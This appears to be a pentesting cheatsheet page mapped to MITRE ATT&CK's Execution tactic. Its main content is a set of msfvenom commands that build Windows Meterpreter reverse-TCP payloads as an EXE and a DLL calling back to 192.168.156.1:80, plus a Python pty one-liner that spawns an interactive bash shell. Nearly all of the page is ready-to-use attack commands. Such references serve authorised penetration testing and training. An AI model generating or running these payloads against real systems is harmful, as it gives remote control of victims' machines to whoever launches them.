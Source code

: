 ```yaml
---
layout: post
title: TA0002 Execution
category: Pentesting
parent: Pentesting
grand_parent: Cheatsheets
modified_date: 2022-02-15
permalink: /:categories/:title/
---
```


**Mitre Att&ck Entreprise**: [TA0002 - Execution](https://attack.mitre.org/tactics/TA0002/)

**Menu**
<!-- vscode-markdown-toc -->
* [Executing System Interpreters](#ExecutingSystemInterpreters)
* [Build System Interpreters - MSFvenom](#BuildSystemInterpreters-MSFvenom)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='BuildSystemInterpreters-MSFvenom'></a>Build System Interpreters - MSFvenom
```sh
#? generate msfvenom payloads
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f exe > /tmp/meter-rtcp-192.168.156.1-80.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f dll > /tmp/meter-rtcp-192.168.156.1-80.dll
```

## <a name='ExecutingSystemInterpreters'></a>Executing System Interpreters 
```sh
# run bash via python
python -c 'import pty; pty.spawn("/bin/bash")'
```
